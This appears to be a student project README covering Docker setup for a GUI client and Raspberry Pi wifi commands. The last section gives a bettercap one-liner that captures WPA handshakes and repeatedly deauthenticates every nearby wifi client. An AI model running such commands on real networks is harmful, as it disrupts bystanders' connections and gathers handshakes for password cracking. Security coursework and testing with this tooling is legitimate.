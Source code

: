 # Distribuited Programming University Project 

# Dependencies

Since `client` within docker runs a GUI using `raylib`, we need to forward the desktop environment to docker.
So, an utility called `xhost` is needed (`xorg-xhost` package on arch).

Then run 

```bash
export DISPLAY=:0.0
xhost +local:docker
docker compose up --build -d
```

# Raspberry-Pi Useful commands

> Tested on Raspberry-Pi 5 Model B Rev. 2

> [!TIP]
> Change `wlan1` interface with your interface accordingly. Make sure your wifi card supports monitor mode and packet injection first.

## Set-Up monitor mode

```bash
sudo ip link set wlan1 down
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up
```

## Useful Bettercap commands

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
```

## All-in one bettercap command

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; wifi.recon.channel 3; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```